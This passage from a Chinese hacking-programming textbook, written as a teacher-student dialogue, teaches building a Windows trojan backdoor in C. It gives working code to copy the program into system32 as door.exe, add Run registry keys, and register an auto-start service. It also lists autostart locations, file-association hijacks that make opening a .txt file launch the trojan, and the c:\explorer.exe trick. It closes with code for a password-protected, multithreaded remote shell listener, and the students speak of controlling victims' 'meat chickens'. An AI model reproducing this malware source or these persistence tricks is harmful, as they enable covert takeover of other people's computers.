    if(ret == 0)
        printf("Fail!");
    printf("Success");
    return 0;
}


```

“好了，我们来测试一下。删除掉启动文件夹里原有的文件，再执行这个 StartUpFolder.cpp 程序，成功地拷贝了自身到启动目录中，并命名为 door.exe，如图 3.15。”
图 3.15

### 3.4.2 注册表启动键值

“哦！我们可以在木马中添加这个模块，当用户输入 install 命令的时候，就执行整个操作，完成木马的‘安装’！哈哈。”小菜们为自己的想法得意起来。

“不错，的确是这样。”老师说道，“但我们还是先看看其他自启动的方法和实现，全部实现后，可以从中选择一个最好的，哦，不，更适合实现情况的自启动方式应用在我们的木马中。”

“第二种方法，是利用注册表指明开机时要运行的程序。”老师说道，“其中利用得最多的是注册表中的 Run 注册键。在 Windows 启动后，就会执行其指示的命令。”

“Run 注册键最容易想到的地方是 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 和 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run。”

“哇，老师，你的 Run 键下面有好多程序要启动执行啊，里面好像也有木马耶。”小菜们大惊失色地说道。

“呵呵，分析讲解木马，当然需要亲自安装很多来测试啊，正所谓，我不入地狱，谁入地狱，也如同神农亲尝百草。讲解完后我会把它们删掉的。”老师无所谓地说道，“大家看，里面指示清楚了要启动程序的具体位置，如图 3.16。”
图 3.16

“嗯，是 D 盘 winamp 目录下的 winampa.exe。”小菜们定睛一看。

“对，如果我们不希望 winamp 播放器开机就自动启动，将这个键整个删掉就可以了。”老师说道。

“除了刚才那两个位置的 Run，大家搜索一下注册表，还可以发现另外两个 Run 的键值，分别是 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run 和 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run。”

“它们也可以完成开机启动的功能，但隐藏得更隐秘一点。”

“哇！老师，你这里也有启动程序耶！”菜鸟 A 指着注册表说道。

“哦？是么，正为贼多不痒，债多不愁……木马被中的多了，就无所谓了——况且还是我自己中的。我会在上完这次课后将它们清除掉的，如果比较麻烦，就重装系统——刷刷！”

“哦，真是大无畏的牺牲精神啊。”小菜们都被感动了……

“老师在暗想，是 3721 是什么时候被装上去的，气死我了，就像旧社会一样太黑暗了！找个空儿一定把它 kill 掉！”

“进入编程实现吧，我们要达到启动自动执行功能，只要在 Run 下面添加一个键值，内容为我们程序的路径和名称就可以了。”

“我们先把木马拷贝到系统文件夹下，就是 2000 的 winnt/system32 或者 XP 的 windows/system32 目录下。文件的拷贝前面已经说过，这里具体代码就是。”

```c
// 得到当前文件名                      // 获取 EXE 本身的路径
GetModuleFileName(NULL,
    ExeFile,                        // 路径存储在 ExeFile 缓冲区中
    MAX_PATH);                      // ExeFile 缓冲区的大小

// 得到系统目录
GetSystemDirectory(TempPath,        // 系统目录存在 TempPath 中
    MAX_PATH);                      // TempPath 的大小
strcat(TempPath, "\\door.exe");
// 拷贝到系统文件夹，名为 door.exe
ret = CopyFile(ExeFile, TempPath, FALSE);
```

“拷贝过去后，然后我们在注册表的 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 位置下增加一个 door 的字符串值，里面的内容是我们在系统文件夹下的木马程序，这样开机后就会自动执行我们的程序了。”

小菜们认真地听着。

“对注册表的操作，需要使用 RegOpenKey 函数打开注册表键，RegSetValueEx 函数设置注册表键值。”

```c
LONG RegOpenKey(
    HKEY hKey,
    LPCTSTR lpSubKey,
    PHKEY phkResult
);
```

参数：

第一个参数 hKey：要打开键的主键名，需要是 RegCreateKeyEx 函数或 RegOpenKeyEx 函数返回的句柄，也可以是以下几个注册表的根值。

- HKEY_CLASSES_ROOT
- HKEY_CURRENT_CONFIG
- HKEY_CURRENT_USER
- HKEY_LOCAL_MACHINE
- HKEY_USERS

第二个参数 lpSubKey：指明要打开子键的路径。

第三个参数 phkResult：指向打开键的句柄。

说明：

不成功返回非 0，成功返回 ERROR_SUCCESS。函数负责打开指定的键或子键，如果不存在并不建立新键。

“我们使用 RegOpenKey 函数打开 HKEY_LOCAL_MACHINE 下的那个 Run 键，所以函数第一个参数填为 HKEY_LOCAL_MACHINE，第二个参数填为路径‘Software\\Microsoft\\Windows\\CurrentVersion\\Run’，第三个参数为一个句柄的地址，存储打开键的句柄。”

```c
RegOpenKey(HKEY_LOCAL_MACHINE,      // 主键为 HKEY_LOCAL_MACHINE
    "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
    &key);                          // 一个句柄的地址
```

“打开键后，设置注册表的键值采用 RegSetValueEx 函数。”

```c
LONG RegSetValueEx(
    HKEY hKey,
    LPCTSTR lpValueName,
    DWORD Reserved,
    DWORD dwType,
    const BYTE* lpData,
    DWORD cbData
);
```

参数：

第一个参数 hKey：已打开的键的句柄，可以为 RegCreateKeyEx 函数或 RegOpenKeyEx 函数的返回值，也可以是以下注册表的根键。

- HKEY_CLASSES_ROOT
- HKEY_CURRENT_CONFIG
- HKEY_CURRENT_USER
- HKEY_LOCAL_MACHINE
- HKEY_PERFORMANCE_DATA
- HKEY_USERS

第二个参数 lpValueName：要设置值的名称。

第三个参数 Reserved：保留字段，不使用。

第四个参数 dwType：添加变量的类型，常用的有二进制 REG_BINARY、32 位数字 REG_DWORD、字符串 REG_SZ。

第五个参数 lpData：添加变量数据的地址。

第六个参数 cbData：添加变量的长度。

“我们用 RegSetValueEx 函数新建一个字符串值，名称为‘Test Door’。第一个参数为 RegOpenKey 函数中返回的 key，第二个参数为值的名称‘Test Door’，第四个参数类型为 REG_SZ，第五个参数为变量数据的地址 TempPath，写入我们木马的路径，第六个参数为 TempPath 的长度。”

```c
RegSetValueEx(key,          // RegOpenKey 打开键的句柄
    "Test Door",            // Run 下建立的键
    0,                      // 保留字段
    REG_SZ,                 // 字符串类型
    (BYTE *)TempPath,       // 设置的键值，为木马路径
    strlen(TempPath));      // 设置键值的长度
```

“连起来，得到 RegisterRun.cpp。”

```c
#include <windows.h>
#include <stdio.h>
int main()
{
    char ExeFile[MAX_PATH];
    char TempPath[MAX_PATH];
    int ret;
    // 得到当前文件名
    GetModuleFileName(NULL, ExeFile, MAX_PATH);
    // 得到系统目录
    GetSystemDirectory(TempPath, MAX_PATH);
    strcat(TempPath, "\\door.exe");
    // 拷贝到系统文件夹，名为 door.exe
    ret = CopyFile(ExeFile, TempPath, FALSE);

    if(ret == 0)
    {
        printf("Fail!");
        return 1;
    }

    HKEY key;
    // 打开 RUN 键
    if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
        0, KEY_ALL_ACCESS, &key) == ERROR_SUCCESS)
    {
        // 在 RUN 键下，建立一个“Test Door”键，值为我们木马的路径
        RegSetValueEx(key, "Test Door", 0, REG_SZ, (BYTE *)TempPath,
            strlen(TempPath));
        RegCloseKey(key);
        printf("Success!");
    }
    return 0;
}


```

“运行、测试，RegisterRun 将木马自身程序拷贝到系统目录，并改名为 door.exe，且修改了注册表，其效果如图 3.17。”
图 3.17

“哦，好 yeah，又成功了！”小菜们欢呼道。

老师补充道：“所有的注册表键值的操作，都可以这样类似地实现。我们只需要改变 RegOpenKey 的参数，就能指明注册表的其他地方了。”

大家都点点头。

“除了 Run 键，我们还有其他的一些类似键值可以使用，有 RunServices、RunOnce 和 RunServicesOnce，在这些键值下指明的程序，也会在系统开机的时候自动执行。”

“它们有什么区别呢？”

“RunOnce 本意是只运行一次，本来是用于需要重启后继续安装的软件。”HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices、RunOnce 键的位置是 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce 和 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce。

“如果是 XP，还有一个 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx，而 RunServicesOnce 位置是 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 和 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce。”

“最后，还有两个类似的启动键，也能够在 Windows 启动时自动运行程序。一个是 Load 注册键，位置在 HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows\load，还有一个是 Userinit 注册键，在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\Userinit。”

“通常该注册键下面有一个 userinit.exe，但这个键允许指定用逗号分隔的多个程序，例如‘userinit.exe,door.exe’。”

“这里把注册表的启动键全总结出来，以方便大家在查杀木马时有意识地查找。”老师最后说道，“我的记性也不好，写在这里也免得以后忘了。”

“哇！这么多的地方啊，够用了，够用了。”小菜们满意地说道，“只要更改函数里的参数就可以了吧？我们把它们全部加上，万无一失，哈哈。”

“晕，改得太多了反而容易把自己暴露在群众雪亮的眼球前。”老师说道，“做事不要过犹不及啊！”

### 3.4.3 应用程序关联

“我们只能让 Windows 在启动时帮我们运行程序吗？”小菜们问道，“在启动之后还有机会执行我们的木马程序吗？”

老师说道：“呵呵，问得好！还是有办法的，其中一种方法就是利用应用程序的关联！”

“关联？什么关联？”

“比如，我们双击 txt 文本文件时，Windows 会运行什么程序呢？”老师问。

“当然是记事本了！”台下异口同声地回答。

“对喽。那是因为在注册表的 HKEY_CLASSES_ROOT\txtfile\shell\open\command 和 HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command 位置中，指明了 txt 文件由记事本程序，也就是 notepad 来运行的。”

“哦！？还有这种事？”小菜们忙着打开注册表，找到了那个位置一看，如图 3.18。
图 3.18

“哇！notepad %1，果然是这样啊！”小菜们说，“莫非把这个 notepad 改成我们的程序名字不成？”

老师点点头：“我们来试一下。写一个弹出对话框的程序 ww.exe，放到系统目录下；然后把注册表中的 notepad %1 改成 ww.exe %1，如图 3.19，这下双击记事本文本文件，就激发运行 ww.exe。看，弹出对话框了。”

# 黑客编程入门
图 3.19

“哈哈！原来还可以这样啊！”小菜们惊奇地说道。

“对，我们把关联程序名改为我们自己的木马，这样用户在运行记事本的时候，就会神不知鬼不觉地运行了我们的木马。”

“同样的，其他常用程序的关联都可以改变，比如 exe、bat、com 文件等等。它们的所在位置如下，同样地更改即可。”

```text
[HKEY_CLASSES_ROOT\exefile\shell\open\command]="%1" %*
[HKEY_CLASSES_ROOT\comfile\shell\open\command]="%1" %*
[HKEY_CLASSES_ROOT\batfile\shell\open\command]="%1" %*
[HKEY_LOCAL_MACHINE\Software\CLASSES\batfile\shell\open\command]="%1" %*
[HKEY_LOCAL_MACHINE\Software\CLASSES\comfile\shell\open\command]="%1" %*
[HKEY_LOCAL_MACHINE\Software\CLASSES\exefile\shell\open\command]="%1" %*
```

“哦，又是一招，不错不错，还有别的办法吗？”小菜们期望地说道。

### 3.4.4 启动文件

“呵呵，除了注册表，一些文件里指示的东东，Windows 也会去执行。”老师说道。

“哦？什么样的文件？我们写一个行不？”

“当然不行，需要是 Windows 的配置文件。”老师说，“不过有一个文件例外，但几乎没有人知道。”

“啊？什么文件啊？”台下感兴趣地说。

“WINSTART.BAT。”老师说道，“在 Windows 目录中。”

“嗯，怎么没有呢？”小菜们找了找，没有发现。

“呵呵，对！这个文件甚至可能没有，但我们可以轻松地生成它，并指明要运行的程序。”老师说道，“在程序中，只需要加上这一句话就可以实现启动 door.exe 程序了，System("echo door.exe>c:\\WINSTART.BAT");”

“呵呵，越来越有意思了！”

“还有呢。”老师继续眉飞色舞地说道，“在 Windows 目录下的 WIN.INI 文件中，‘RUN=’一栏和‘LOAD=’一栏中指明的程序，也会被 Windows 执行。”

“另外一个 System.ini 文件中的 Shell 栏，也可以被我们利用。我们要执行 door.exe，只要这样改改就成。”

```text
[boot]
shell=explorer.exe C:\Windows\filename
```

### 3.4.5 注册服务

“除了上面的这些方法，常规木马的启动还有一些办法。”老师说道，“第一，可以把木马注册为 NT、2000、XP 的服务，这样来完成启动。”

“我们可以手动来完成注册的安装，不过现在在学编程，所以来看程序是如何实现的了。”

“首先打开服务控制管理器，使用 OpenSCManager 函数。”

原型：

```c
SC_HANDLE OpenSCManager(
    LPCTSTR lpMachineName,
    LPCTSTR lpDatabaseName,
    DWORD dwDesiredAccess
);
```

参数：

- 第一个参数 lpMachineName：指向目标主机的名称，如果是本机，设为 NULL
- 第二个参数 lpDatabaseName：指向要打开的服务控制管理数据库，默认为 NULL
- 第三个参数 dwDesiredAccess：指定想要的权限，可以是
  - SC_MANAGER_ALL_ACCESS，拥有所有权限；
  - SC_MANAGER_CREATE_SERVICE，创建服务权限，调用 CreateService 前设定
  - SC_MANAGER_CONNECT，连接权限
  - SC_MANAGER_ENUMERATE_SERVICE，枚举查询服务权限，调用 EnumServicesStatus 前设定
  - SC_MANAGER_LOCK，锁定权限，调用 LockServiceDatabase 前设定
  - SC_MANAGER_QUERY_LOCK_STATUS，锁定查询权限，调用 QueryServiceLockStatus 前设定

“我们前两个参数都设为 NULL，第三个参数设置为创建服务的权限 SC_MANAGER_CREATE_SERVICE。”

```c
SC_HANDLE schSCManager = OpenSCManager(
    NULL,                       // NULL 表明是本地主机
    NULL,                       // 要打开的服务控制管理数据库，默认为空
    SC_MANAGER_CREATE_SERVICE   // 需要创建服务的权限
);
```

“然后新建一个服务，指明服务名 door，显示名 door，和木马文件名 door.exe。使用 CreateService 函数。”

原型：

```c
SC_HANDLE CreateService(
    SC_HANDLE hSCManager,
    LPCTSTR lpServiceName,
    LPCTSTR lpDisplayName,
    DWORD dwDesiredAccess,
    DWORD dwServiceType,
    DWORD dwStartType,
    DWORD dwErrorControl,
    LPCTSTR lpBinaryPathName,
    LPCTSTR lpLoadOrderGroup,
    LPDWORD lpdwTagId,
    LPCTSTR lpDependencies,
    LPCTSTR lpServiceStartName,
    LPCTSTR lpPassword
);
```

参数：

- 第一个参数 hSCManager：服务控制管理数据库的句柄，由 OpenSCManager 函数返回。
- 第二个参数 lpServiceName：服务名
- 第三个参数 lpDisplayName：服务显示名
- 第四个参数 dwDesiredAccess：访问权限
- 第五个参数 dwServiceType：服务类型，可以是
  - SERVICE_FILE_SYSTEM_DRIVER
  - SERVICE_KERNEL_DRIVER
  - SERVICE_WIN32_OWN_PROCESS
  - SERVICE_WIN32_SHARE_PROCESS
- 第六个参数 dwStartType：启动类型，可以设为
  - SERVICE_AUTO_START，自动启动
  - SERVICE_BOOT_START，开机启动，只对 DRIVER 服务有效
  - SERVICE_DEMAND_START，当调用 StartService 时启动
  - SERVICE_DISABLED，失效服务类型，不能启动
  - SERVICE_SYSTEM_START，由 IoInitSystem 函数启动，只对 DRIVER 服务有效
- 第七个参数 dwErrorControl：错误处理方式
- 第八个参数 lpBinaryPathName：服务的 EXE 文件路径
- 第九个参数 lpLoadOrderGroup：服务属于的组
- 第十个参数 lpdwTagId：返回服务在组中的 ID
- 第十一个参数 lpDependencies：指明本服务依赖的服务
- 第十二个参数 lpServiceStartName：指明需启动服务时的帐号
- 第十三个参数 lpPassword：服务密码

“十三个参数……我的妈啊，我们使用它新建一个名称为 door 的服务。”

```c
SC_HANDLE schService =
CreateService(schSCManager,      // 指向服务控制管理数据库的句柄
    "door",                      // 服务名
    "door",                      // 显示的服务名
    SERVICE_ALL_ACCESS,          // 所有访问权限
    SERVICE_WIN32_OWN_PROCESS,   // 私有类型
    SERVICE_AUTO_START,          // 自启动类型
    SERVICE_ERROR_IGNORE,        // 忽略错误处理
    "door.exe",                  // 应用程序路径
    NULL,
    NULL,
    NULL,
    NULL,
    NULL);
```

“添加成功后，在注册表的 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\door 建一个 Description 描述键，写成 door。使用 RegOpenKey 函数和 RegSetValueEx 函数来完成，代码如下。”

```c
RegOpenKey(HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Services\\door", &key);
RegSetValueEx(key, "Description", 0, REG_SZ, (BYTE *)"door", strlen("door"));


```

“OK。”老师拍拍手，“这样服务就注册好了。”

### 3.4.6 其他方法

“第二，可以利用任务计划，Task Scheduler。IPC 下经典的 at 命令攻击就是指明多长时间后执行一个程序。”

“哦，那我们在程序中加入指明一天后启动，这样明天运行后，又会指明下一个一天后运行，就这样周而复始！哈哈！”菜鸟 A 得意地说道。

“嗯，可以。但有个问题，万一那个时候正好没有开机，那么木马不就从此就挂掉了吗……”

“嗯——”

“还好我们可以编程实现，多指定几次任务吧。用函数 NetScheduleJobAdd 实现，大家可以查查 MSDN。”老师说道，“第三种方法更绝，Windows 启动时会加载 explorer.exe，但如果存在 c:\explorer.exe，那么系统会去执行 c:\explorer.exe，而不是 Windows 目录中的真正的 explorer.exe。这下我们的活就简单了，不用更改文件和注册表，只用把木马文件放在 C 盘根目录下，命名为 explorer.exe 就可以了。”

“呼，不知不觉这么晚了啊！”老师看了看表，说道，“本来还打算讲很多内容的……”

“唉？计划还有些什么呢？”大家问道。

“木马更高级的技术。”老师回答道，“包括 DLL 木马的编写，和通过远程进程注入来隐藏木马进程；利用嗅探来隐藏端口；利用 ICMP 或 TCP 隧道来突破防火墙，Hook API 技术来保证更隐蔽的操作等。”

“哇！这么多新东西啊，口水都要流出来了……”小菜们说道。

“如果大家有兴趣继续听，下次再继续。这节课就到这里，关门，放狗，同学们再见！”

# 第四章 后门编程步步高

“上课了，上课了，继续学习木马，继续学习木马！”小菜们边嚷着边走进了教室。

老师低头仔细看了看教案，掐指一算，说道：“奇怪，木马编程不是前几节课已经讲过了吗？”

“是啊，是啊。但那些木马只有基本的功能，别人的木马好 cool 啊，好炫啊！如果我们的木马也那样就好了！”小菜们眼巴巴地望着老师。

“你们不要用这样的眼神望着我嘛。”老师一身冷汗，“那你们希望有些什么样的功能呢？”

“嗯，要有很多很多很多很多的功能！”小菜们嚷道。

“我倒，什么是很多很多很多的功能啊……大家有兴趣是件好事。”老师说道，“但我要再次强调，木马的目的不是控制，而是为了隐藏，隐蔽是最重要的目标，过多的功能反而容易暴露自己。”

小菜们认真地点点头。

“不过既然大家有兴趣，那我们把 DLL 木马编程延到下次，今天进一步讲讲网络编程中的高级编程。”

“太好了，好啊！”

## 4.1 socket 高级编程

“大家都感觉到了，上节课的那个木马虽然有了一般木马的骨架，也的确能够使用起来，但不知怎的，总有一点说不清的怪异感觉。”

“和其他成熟的木马相比，我们那个木马的基本功能还有点欠缺，但首要问题是没有验证机制。我们费尽苦心，好不容易安装上一个木马，但其他人通过扫描发现那个端口后，只是好奇地 telnet 试试，就可以得到木马的 shell 了。”

“虽然我们提倡共享，但共享的是技术和信息，而不是给别人做坏事的机会；另外把自己的肉鸡拱手让人，也不是什么很舒服的事情。”

“为了解决这个问题，我们可以采用两种办法。第一种方法是提供一个专门的客户端，只有使用这个客户端才能登录木马服务，别人不知道是什么样的客户端，也就不能使用木马后门了；”

“第二种方法是登录时要求输入密码，只有密码正确才能使用。”

“其实这两种方法的本质是一样的。都是加入了一个验证机制，要么是验证程序，要么是验证密码，只有通过这个验证了，才能够使用我们的木马。我们先看密码验证如何实现。”

### 4.1.1 密码验证——socket 超时编程

“密码验证的思路比较简单，用户连接后并不直接提供 shell，而是让他输入密码，只有密码正确才提供 shell，否则就退出。”

“只要在那个木马模板上的 accept 后加入一段代码，进行密码的输入和判断就可以了。”如图 4.1。

“哦，明白！我来，我来！”小菜 B 信心十足地说道，“有了思路，又有了木马模板，实现起来应该比较简单，我来试试。”
“首先给用户一个提示，让他输入密码，`send(clientFD,"Password:",sizeof("Password:"),0);`，然后记录用户输入的密码，记录密码的方法和记录用户输入的木马命令是一样的，一个字符一个字符地记录下来，直到 `0xa` 或 `0xd` 的时候退出密码输入过程。”

```c
while(IBytesRead<256)
{
    //接收错误
    if(recv(clientFD,Buff,1,0)==SOCKET_ERROR)
    {
        closesocket(clientFD);
        goto ag;
    }
    cmd[IBytesRead]=Buff[0];
    if(Buff[0]==0xa || Buff[0]==0xd)
    {
        cmd[IBytesRead]=0;
        break;
    }
    IBytesRead++;
}
```

“最后将用户输入的密码和预先设置的密码进行比较。`strcmp()` 函数可以完成字符串比较的功能。其中 `strcmp` 函数的原型如下。”

```c
int strcmp(
    const char *string1,
    const char *string2
);
```

“函数的两个参数是作比较的两个字符串。返回值若为 0 则表示两个字符串相等，小于 0 表示 `string1` 小于 `string2`，大于 0 表示 `string1` 大于 `string2`。”

“所以若用户输入和保存的密码相比不等于 0，则关闭这个用户的 `socket` 连接，返回监听状态。”

```c
if(strcmp(cmd,g_Password)!=0)
{
    closesocket(clientFD);
    goto ag;
}


```

“若相等，则验证通过，正常地开始我们的木马流程！”

“好的，把这段代码加到前面的木马模板中，合起来为 `door password.cpp`，测试一下吧。”老师说道。

“好呀！嗯？怎么会失败呢？提示输入密码，但一敲任何值就失败退出了？如图 4.2。”小菜 C 说道。
“是啊，是啊，太奇怪了，莫非不能加上验证密码？”

“不要慌，不要慌，网络程序我们也可以一样地调试找问题的。”老师说道，“我们进入调试状态吧。”

# 黑客编程入门

“好，我们 F10 一步一步地执行，哦，问题在接收用户输入密码的那个循环上。”

```c
while(lBytesRead<256)
{
    记录用户密码输入。
}


```

“lBytesRead 没有初始化，是 0xcccccccc，比 256 大多了，所以 while(lBytesRead<256) 一定不成立，就跳过密码接收，直接到了密码比较。而此时根本没有记录用户输入的密码，所以一定不相等，程序认为验证失败，就退出了。”

“这就是没有初始化的危害。找到了原因就好办了，我们在 while 循环前加上 lBytesRead = 0 就 OK 了。再测一下，哈哈，完美成功！如图 4.3。”
图 4.3

> “啦啦啦，顺利解决！”
> 
> “不过，我们连接了，但一直不输入密码会怎么样呢？”

“唔，这样木马就会一直等着，等啊等，痴痴地等，傻傻地等……”

“这样也不好，我们自己不能使用了，也容易被人发现问题。”

“是啊，我们加入一个超时的机制就好了，过一段时间，如果用户没有输入，就超时退出，强行关闭。”

“咦？怎么退出呢？在 recv 那里就阻塞住了，程序一直痴痴地等，傻傻地等，等待用户的输入，等待用户的密码。”

“recv 本身的确不行，但 select 函数可以帮助我们完成这个功能。”老师说道。

“select 函数可以用于查询一个或多个 SOCKET 的状态。函数如下。”

#### 原型

```c
int select(
    int nfds,
    fd_set* readfds,
    fd_set* writefds,
    fd_set* exceptfds,
    const struct timeval* timeout
);
```

#### 参数

- 第一个参数 nfds，WINDOWS SOCKET API 中该参数被忽略，只是为了保持和 Berkeley Socket 兼容。
- 第二个参数 readfds，socket 的指针，检查这些 socket 是否可读。
- 第三个参数 writefds，socket 的指针，检查这些 socket 是否可写。
- 第四个参数 exceptfds，socket 的指针，检查这些 socket 是否出错。
- 第五个参数 timeout，等待的最大时间，为 TIMEVAL 结构。如果设为 NULL，则一直阻塞等待。

#### 说明

select 函数返回在 fd_set 中可读、可写或出错的 socket 的个数；若返回 0 则等待超时；返回 SOCKET_ERROR 表示有错误发生。

“在这里，我们设一个 fd_set，把 socket 加入到这个 fd_set 中，然后用 select 函数检查这个 fd_set 是否可读，当超过 6 秒都没有数据来时，就认为超时，退出；当然有数据来，就认为是密码的输入，这部分是一样的。”

“这段代码如下，带有详细的解释。”

```cpp
while(lBytesRead<256)
{
    // 定义 fd_set
    fd_set FdRead;
    // 定义超时时间
    struct timeval TimeOut;

    // 清空 fd_set
    FD_ZERO(&FdRead);
    // 把我们的 socket 加入到 FdRead 组中
    FD_SET(clientFD, &FdRead);
    // 设置超时时间为 6 秒
    TimeOut.tv_sec=6;
    TimeOut.tv_usec=0;
    // 用 select 查询 socket 是否有数据可读
    int Er=select(NULL, &FdRead, NULL, NULL, &TimeOut);
    // 返回 0 表示超时，返回 SOCKET_ERROR 表示错误
    if((Er==SOCKET_ERROR) || (Er==0))
    {
        // 超时或错误，就退出
        closesocket(clientFD);
        goto ag;
    }

    // 接收密码
    if(recv(clientFD, Buff, 1, 0)==SOCKET_ERROR)
    {
        closesocket(clientFD);
        goto ag;
    }

    cmd[lBytesRead]=Buff[0];
    if(Buff[0]==0xa || Buff[0]==0xd)
    {
        cmd[lBytesRead]=0;
        break;
    }

    lBytesRead++;
}


```

“代码合起来得到 door password overtime.cpp，大家可以测试一下。当提示输入密码时，如果用户 6 秒钟都没有输入，程序就会自动超时退出。这样保证了我们木马的安全性。”

### 4.1.2 支持多用户——网络多线程

“好啊，有了这次密码的保护，木马就真正地归我们所有了！”小菜们测试了密码验证后高兴地说道。

“慢着，现在只能同时登录一个用户，如果用它来下载电影，只能等一部下载完毕后再下第二部，就太慢了，如果可以同时登录几个人，就可以几部电影一起下了。”

“是啊，我们试试。啊，失败！只能同时登录一个，直到另一个退出后才能再登录另一个，如图 4.4。”

“嗯。”老师说道，“是因为服务端只建立了一个 socket，accept 后就不能再接收其他的连接了，而要让他们等待，而能等待的数量是由 listen 函数中的 backlog 参数决定的。”
图 4.4

> “那可以在一个端口上建多个 socket 吗？来一个客户就用一个，再来一个就用另一个。”
>
> “可以啊。为了解决这个问题，那就涉及到多线程编程了。”
>
> “啊？”小菜们的脸上露出恐惧状，“多线程，很难吧？”
>
> “呵呵，多线程只是小菜一碟，哦，对不起，我不是说你们，是说多线程编程。”老师说道，“大家在前面都已经写过多进程的程序——cmd 窗口后门了，而多线程编程与多进程编程类似，MS 和 Intel 都帮我们把底层都考虑好了，我们只需要简单地调用函数就行了。而 CreateThread 函数可以帮助我们完成这个功能。”

#### 函数原型

```c
HANDLE CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```

#### 参数

第一个参数 lpThreadAttributes，指明创建线程的安全属性，为指向 SECURITY_ATTRIBUTES 结构的指针。

SECURITY_ATTRIBUTES 的定义如下：

```c
typedef struct _SECURITY_ATTRIBUTES {
    DWORD nLength;
    LPVOID lpSecurityDescriptor;
    BOOL bInheritHandle;
} SECURITY_ATTRIBUTES, *PSECURITY_ATTRIBUTES;
```

在 SECURITY_ATTRIBUTES 里面可以设定返回的线程 handle 能否被子进程继承；如果为 NULL，则不能被继承。

- 第二个参数 dwStackSize，指定线程使用缺省的堆栈大小，如果为 NULL，则与进程主线程堆栈相同。
- 第三个参数 lpStartAddress，指定线程函数，线程即从该函数的入口处开始运行，函数返回时就意味着线程终止运行。
- 第四个参数 lpParameter，表示传递给线程的参数，可以是指向任意数据类型的指针。
- 第五个参数 dwCreationFlags，表示是否创建后挂起线程（取值 CREATE_SUSPENDED），挂起后要调用 ResumeThread 来继续执行线程。
- 第六个参数 lpThreadId，用来存放返回线程的标识号 ID。

#### 说明

如果创建线程成功，该函数返回线程的句柄，否则返回 NULL。创建了新的线程后，该线程就开始自动执行了。但如果在 dwCreationFlags 中使用了 CREATE_SUSPENDED 特性，那么线程并不马上执行，而是先挂起，等到调用 ResumeThread 后才开始启动线程。

> 老师说道：“同样地，和 CreateProcess 一样，CreateThread 的很多参数可以设置为 NULL。这里我们只要设置线程执行的函数，和线程要带的参数两个值就好了。”
>
> “对于我们这个木马，我们把每个客户端连接后的功能处理都放在 threadfun 函数中，主进程 accept 一个客户端的连接后，用 CreateThread 创建线程执行该函数，并把 accept 生成的 socket 值作为参数传给它。”
>
> “具体说来，就是如下的流程：”

```c
while(1)
{
    // accept客户端的连接
    SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&AddrSize);

    // 开启每个客户处理线程
    CreateThread(NULL,    // 线程的安全属性为NULL
                 NULL,    // 缺省的堆栈和主进程相同
                 (LPTHREAD_START_ROUTINE)threadfun, // 线程函数为threadfun
                 (VOID *)clientFD,  // 线程的参数为clientFD
                 NULL,    // 线程不挂起，直接执行
                 NULL);   // 不保存线程的标识号

    Sleep(100);
}
```

“而线程处理函数就为木马的功能。但要做的第一件事情是把传进来的参数转化为 SOCKET 类型：**SOCKET clientFD=(SOCKET)cs;**，剩下的就和原来一样了。”

```c
void threadfun(void *cs)
{
    // 转化参数
    SOCKET clientFD=(SOCKET)cs;
    char Buff[1024], cmd[1024];
    // 要求输入密码
    send(clientFD,"Password:",sizeof("Password:"),0);
    unsigned long lBytesRead = 0;
    while(lBytesRead<256)
    {
        // socket可读超时检查
        fd_set FdRead;
        struct timeval TimeOut;
        FD_ZERO(&FdRead);
        FD_SET(clientFD,&FdRead);
        TimeOut.tv_sec=6;
        TimeOut.tv_usec=0;
        int Er=select(clientFD+1,&FdRead,NULL,NULL,&TimeOut);
        // 超时或错误
        if((Er==SOCKET_ERROR)||(Er==0))
        {
            closesocket(clientFD);
            return;
        }

        // 接收
        if(recv(clientFD, Buff, 1, 0) == SOCKET_ERROR)
        {
            closesocket(clientFD);
            return;
        }

        cmd[lBytesRead] = Buff[0];
        if(Buff[0] == 0xa || Buff[0] == 0xd)
        {
            cmd[lBytesRead] = 0;
            break;
        }
        lBytesRead++;
    }

    // 密码判断
    if(strcmp(cmd, g_password) != 0)
    {
        closesocket(clientFD);
        return;
    }

    send(clientFD, "Welcome to door by ourselves!\n\r", sizeof("Welcome to door by ourselves!\n\r"), 0);
    send(clientFD, "door>", sizeof("door>"), 0);
    while(1)
    {
        ZeroMemory(cmd, 1024);
        lBytesRead = 0;
        // input cmd
        while(lBytesRead < 250)
        {
            if(recv(clientFD, Buff, 1, 0) == SOCKET_ERROR)
            {
                closesocket(clientFD);
                return;
            }
            cmd[lBytesRead] = Buff[0];
            if(Buff[0] == 0xa || Buff[0] == 0xd)
            {
                cmd[lBytesRead] = 0;
                break;
            }
            lBytesRead++;
        }

        // 帮助信息
        if(strcmp(cmd, "?") == 0)
        {
            send(clientFD, g_helpmess, sizeof(g_helpmess), 0);
        }

        // 打开光驱
        if(strcmp(cmd,"open") == 0)
        {
